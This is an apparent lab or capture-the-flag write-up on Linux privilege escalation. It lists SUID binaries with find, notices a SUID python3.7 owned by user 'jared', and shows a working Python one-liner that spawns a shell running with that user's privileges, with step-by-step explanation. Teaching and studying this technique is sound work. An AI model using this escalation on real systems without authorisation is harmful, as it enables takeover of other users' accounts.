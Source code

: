To find files with the SUID bit, we can run the following command:

```sh
find / -perm -4000 2>/dev/null
```

Let's break down this command to understand it better:

* The `find` command searches the entire filesystem (`/`) for files with at least the permissions corresponding to `4000`.
* The `4` in the leftmost bit of `4000`, means that SUID is set.
* The command also redirects the error output (`2`) to `/dev/null`, essentially ignoring any errors and resulting in a cleaner output.

```sh
find / -perm -4000 2>/dev/null
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/python3.7
/usr/bin/sudo
/bin/su
/bin/mount
/bin/ping
/bin/umount
```

Most of these are system files, which should have SUID set, but `python3.7` usually doesn't.

Let's take a closer look at its permissions and owner:

```sh
ls -l /usr/bin/python3.7
-rwsr-xr-x 1 jared root   4877888 Jan 22  2021 python3.7
```

Sure enough, it's owned by `jared`. This means that we should be able to somehow exploit this to gain access to `jared`.

Using the `-c` flag, we can pass the Python executable a string to run. This allows us to gain access to Jared's account by running this:

```sh
/usr/bin/python3.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Breaking it down again:

* `os.execl` executes a new program, replacing the current process, since we can only access the current process.

* By using it to run `/bin/sh` and passing in the arguments `sh` and `-p`, it will run `/bin/sh sh -p`.

  * This will start a shell instance that replaces the python process, allowing us to use it.

  * The `-p` option turns on privileged mode, which allows the shell instance to run with the effective user ID, `jared`, instead of our real user ID, `guest`.
